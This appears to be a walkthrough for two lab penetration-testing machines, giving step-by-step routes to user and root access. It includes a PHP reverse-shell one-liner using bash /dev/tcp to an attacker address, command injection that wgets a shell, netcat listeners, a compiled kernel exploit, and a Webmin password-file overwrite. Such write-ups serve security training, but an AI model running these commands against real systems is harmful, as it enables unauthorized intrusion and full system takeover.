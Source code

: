 ```bash
thelongnight (.95)
```
Operating SystemLinux
Points20
Similar Machine (User)Code is similar to
https://github.com/lolypop55/html5_snmp
Similar Machine (Root)HackTheBox’s Help
Exploit in Getting User
1. Go to Port 4080 and login as admin:admin
2. Command Injection in http://192.168.XX.95:4080/ping_router.php?cmd=1.1.1.1
3. Create php reverse shell -
<?php exec("bash -c 'bash -i >& /dev/tcp/192.168.XX.XX/80 0>&1'"); ?>
1. Start a web server: python -m SimpleHTTPServer 80
2. Upload it via command injection -
http://192.168.XX.95:4080/ping_router.php?cmd=1.1.1.1;wget+192.168.XX.XX/shell.php
1. Start Listener - nc -lvnp 80
2. Browser http://192.168.XX.95:4080/shell.php
3. User shell!
Privilege Escalation to Root
1. Machine Kernel is vulnerable to https://www.exploit-db.com/exploits/45010
2. wget http://x.x.x.x:143/45010.c -O /tmp/45010.c
3. gcc /tmp/45010.c -o /tmp/45010
4. ./tmp/45010
5. Root shell!

```bash
webpack (.96)
```
Operating SystemLinux
Points20
Similar Machine (User)TryHackMe’s Ignite
Similar Machine (Root)HackThebox’s Jarvis
Exploit in Getting User
1. Run un gobuster on port 80 and you will get /index.php/fuel
2. Login as admin:admin
3. FuelCMS is vulnerable to https://www.exploit-db.com/exploits/47138
4. Modify the URL and directories
5. For the reverse shell make sure you use port 80 to bypass the iptables
6. User shell!
Privilege Escalation to Root
1. Run Linux Enumeration script
2. You will see it has systemctl
3. /var/www/html/assets/images/ is writable
4. Follow this -
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl
-permissions-bc62b0b28d49
1. Root shell!
Recent Update for Priv.Esc.:
1. Locate Webmin’s writable miniserv.users with Linux Enumeration script
2. Use openssl passwd -1 "yourpassword"
3. Overwrite the “x” in the miniserv.users with the hash generated
4. Run sudo systemctl restart webmin
5. Browse port 10000 and login with root/yourpassword
6. Execute nc in the System>Running Process
7. Root shell!
